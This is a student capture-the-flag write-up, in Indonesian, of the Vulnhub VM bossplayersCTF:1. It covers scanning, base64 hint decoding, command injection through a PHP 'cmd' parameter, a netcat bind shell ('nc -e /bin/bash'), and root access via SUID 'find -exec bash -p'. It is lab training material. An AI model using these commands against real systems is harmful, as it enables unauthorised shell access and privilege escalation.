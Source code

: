 | Nama | NRP | Kelas |
| :--: | :--: | :--: |
| Nabiel Nizar Anwari | 5027231087 | Ethical Hacking dan Uji Keamanan Siber (A) |

# WU_bossplayersCTF1-Vulnhub
Write Up BossPlayersCTF:1 VM Vulnhub

- [Download VM here](https://www.vulnhub.com/entry/bossplayersctf-1,375/)
```
About Release
    Name: bossplayersCTF:1
    Date release: 28 Sep 2019
    Author: Cuong Nguyen
    Series: bossplayersCTF
```

## Scanning Network dengan Netdiscover
**Tujuan :** Menemukan IP address dari target di jaringan lokal.  

`sudo netdiscover -r 192.168.87.0/24`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/netdiscover-2.png)

## Scanning Target dengan Nmap
**Tujuan:** Mengidentifikasi port terbuka dan layanan yang berjalan.

`sudo nmap 192.168.87.4 -A -p- -oN log-nmap.log`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nmap.png)

## Melihat Halaman Utama HTTP
**Tujuan :** Mengeksplorasi halaman utama server HTTP.

`http://192.168.87.4/`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/http.png)

## Memeriksa robots.txt file
**Tujuan :** Mencari petunjuk tambahan.

URL : `http://192.168.87.4/robots.txt`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/robots-txt.png)

## Decode Password (Base64)
**Tujuan:** Mendekode string yang ditemukan.

`echo bG9sIHRyeSBoYXJkZXIgYnJvCg== | base64 -d`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/decode.png)


## Source Code Halaman Web

`Ctrl + U`

`WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/ctrl-u.png)

## Decode String Base64 Berulang
**Tujuan:** Mendekode string Base64 hingga teks asli ditemukan.

```
1. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d
2. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d | base64 -d
3. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d | base64 -d | base64 -d

```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/decode-2.png)

## PHP File Target
**Tujuan:** Mengeksplorasi file PHP yang ditemukan.

`http://192.168.87.4/workinginprogress.php`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/url-1.png)

## Testing Command Injection (Whoami URL)
**Tujuan:** Menguji kerentanan Command Injection.

`http://192.168.87.4/workinginprogress.php?cmd=whoami`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/url-2.png)

## Eksploitasi dengan Commix
**Tujuan:** Mengeksploitasi Command Injection menggunakan Commix.

`commix -u 'http://192.168.87.4/workinginprogress.php?cmd=whoami'`
```
nc -e /bin/bash -lvp 2048
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/commix.png)

## Mendapatkan Reverse Shell dengan Netcat
**Tujuan:** Mengakses shell dari mesin target.

`nc 192.168.87.4 2048`

```
uname -a

find / -perm -4000 -type f 2>/dev/null
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nc.png)

## Privilege Escalation
**Tujuan:** Meningkatkan hak akses menjadi root.

```
find -exec bash -p \;
whoami
ls -al /root
cat /root/root.txt
cat /root/root.txt | base64 -d
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nc-2.png)

# Kesimpulan
> Pada akhir proses, berhasil mendapatkan akses root dan membaca file root.txt, yang merupakan flag dari mesin ini. Proses ini mencakup eksplorasi HTTP, eksploitasi command injection, dan privilege escalation. tools-tools seperti base64 decoding, Commix, dkk juga sangat membantu untuk bisa mengeksploitasi mesin ini
